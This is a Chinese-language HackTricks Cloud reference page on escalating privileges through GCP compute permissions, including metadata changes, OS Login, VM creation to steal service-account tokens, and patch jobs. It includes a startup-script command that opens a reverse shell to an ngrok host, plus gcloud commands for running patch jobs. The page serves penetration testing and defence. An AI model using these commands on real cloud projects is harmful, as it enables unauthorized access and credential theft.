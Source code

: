 # GCP - 计算机权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 计算机

有关GCP中计算机和VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和SSH密钥），**需要您对附加到实例的SA具有`actAs`权限**，即使SA已经附加！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有此权限，您可以**修改**实例的**元数据**信息并更改**用户的授权密钥**，或**创建**一个具有sudo权限的**新用户**。因此，您将能够通过SSH登录到任何VM实例并窃取GCP服务帐户实例正在运行的帐户。\
限制：

- 请注意，默认情况下在VM实例中运行的GCP服务帐户**范围非常有限**
- 您需要**能够联系SSH**服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重新启动实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限提供与前一个权限相同的特权，但仅适用于特定实例，而不是整个项目。适用于前一部分的**相同利用和限制**。

### `compute.instances.setIamPolicy`

此类权限将允许您**授予自己具有先前权限的角色**，并滥用它们来提升特权。

### **`compute.instances.osLogin`**

如果实例中启用了**OSLogin**，使用此权限，您只需运行**`gcloud compute ssh [INSTANCE]`**即可连接到实例。您**不会在实例内具有 root 特权**。

{% hint style="success" %}
为了成功使用此权限在 VM 实例内登录，您需要对附加到 VM 的 SA 具有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### **`compute.instances.osAdminLogin`**

如果实例中启用了**OSLogin**，使用此权限，您只需运行**`gcloud compute ssh [INSTANCE]`**即可连接到实例。您将在实例内具有**root 特权**。

{% hint style="success" %}
为了成功使用此权限在 VM 实例内登录，您需要对附加到 VM 的 SA 具有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建具有分配的服务帐户的虚拟机，并窃取服务帐户的令牌**，通过访问元数据来提升特权。

此方法的利用脚本可以在[此处](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您具有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目中的所有计算实例上获得代码执行。

如果要手动利用此功能，您需要创建[补丁作业](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json)或[部署](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)来运行补丁作业：

`gcloud compute os-config patch-jobs execute --file=patch.json`

要部署补丁部署：

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

存在自动化工具，如[patchy](https://github.com/rek7/patchy)，用于检测权限不足并自动进行横向移动。

**您还可以滥用此功能以获取持久性。**

### `compute.machineImages.setIamPolicy`

**授予自己额外权限**以操作计算机映像。

### `compute.snapshots.setIamPolicy`

**授予自己额外权限**以操作磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外权限**以操作磁盘。

### 绕过访问范围

通过此链接，您可以找到一些[**尝试绕过访问范围的想法**](../)。

### GCP 计算实例中的本地特权升级

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
